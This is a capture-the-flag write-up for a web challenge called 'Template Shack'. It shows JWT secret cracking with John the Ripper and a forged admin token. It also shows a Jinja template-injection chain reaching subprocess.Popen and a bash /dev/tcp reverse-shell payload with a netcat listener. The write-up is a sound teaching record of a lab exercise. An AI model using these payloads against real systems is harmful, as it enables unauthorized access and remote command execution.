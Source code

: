 # Template Shack

Author: [roerohan](https://github.com/roerohan)

# Requirements

- JWT
- John The Ripper

# Source

```
Check out the coolest web templates online!

Connect here:
http://jh2i.com:50023
```

# Exploitation

When you visit the website, you find that there's a cookie containing a JWT. It's hashed using `HS256`. We used `rockyou.txt` to bruteforce the JWT secret, using John The Ripper.

```
$ john jwt.txt --wordlist=rockyou.txt --format=HMAC-SHA256
```

The secret is `supersecret`. Using this, you can make a JWT with `username: admin`.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.Ykqid4LTnSPZtoFb11H-_2q-Vo32g4mLpkEcajK0H7I
```

Now, add this to your cookie. You are logged in as admin. Visit some random route starting with `/admin/` which throws a 404. You can see there's scope for template injection in the 404 page.

```
http://jh2i.com:50023/template/admin/%7B%7B().__class__.__bases__[0].__subclasses__()%7D%7D
```

You can climb up the Python MRO using the `__class__` and `__bases__`, etc. This way you can find a list of all the classes you can use. On index 405, you see `subprocess.Popen`.

```
http://jh2i.com:50023/template/admin/%7B%7B().__class__.__bases__[0].__subclasses__()[405]%7D%7D
```

This shows `/template/admin/<class 'subprocess.Popen'>` on the website.

Now, you can use this to spawn a reverse shell. 

```
http://jh2i.com:50023/template/admin/%7B%7B().__class__.__bases__[0].__subclasses__()[405](['bash -c %22bash -i %3E& /dev/tcp/yourserverip/yourport 0%3E&1%22'], shell=True)%7D%7D
```

> Note: Replace yourserverip and yourport.

Start a `netcat` listener on your server at the specified port. 

You get a shell!

```
$ nc -lp 8000
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
user@272108e56147:~$ ls
ls
flag.txt
main.py
posts.py
requirements.txt
templates
user@272108e56147:~$ cat flag.txt
cat flag.txt
flag{easy_jinja_SSTI_RCE}
```

The flag is:

```
flag{easy_jinja_SSTI_RCE}
```
